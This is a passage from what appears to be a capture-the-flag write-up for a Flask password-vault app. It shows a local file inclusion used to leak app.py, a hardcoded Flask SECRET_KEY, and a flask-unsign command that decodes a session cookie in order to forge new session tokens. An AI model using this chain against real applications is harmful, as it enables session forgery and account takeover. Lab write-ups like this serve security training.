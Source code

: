 ![](screenshots/download-lfi.png)

And application directory leaked from the debug errors - `/app/app/superpass/`

So we can leak the `app.py` source code.

![](screenshots/download-lfi-apppy.png)

And from the `app.py`, got the flask SECRET_KEY.

```py
app.config['SECRET_KEY'] = 'MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD'
```

Valut source code found here - `/app/app/superpass/views/vault_views.py`

With the  SECRET_KEY we can use `flask-unsign` to decode and sign new session token.

```bash
❯ flask-unsign -d -c ".eJwljsFqwzAQRH9F7DkUSSvvav0VvZcQ1tIqNrhNsZxTyL9X0NMwvGF4L7i1XftqHeavF7hzBHxb73o3uMDnbtrN7Y-7237c-XBayoDuXLfufsfmA67v62WcHNZXmM_jaaNtFWZgREP0ylbEKpmmmBDFB2mMlLilFiMGqSoyaONMOUSORSPpotWYCqsoikplzySpUsuNfJTiU8rRQuZlqpITYdaJsHGYfKS6SBEa-rdnt-PfRuD9B50hRQ4.ZARHiA.dymzbGkU0yxJeHDHknKkGcDd5t8" --secret MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD

{'_flashes': [('message', 'Please log in to access this page.')], '_fresh': True, '_id': '733e330a7ec9ed6ea424339019f73647f4f22319da996eaf78681272ca26abade76c7a9a39a9d707694d6f8f6029c04482e187b5d984638a563f715026db9c96', '_user_id': '9'}
```
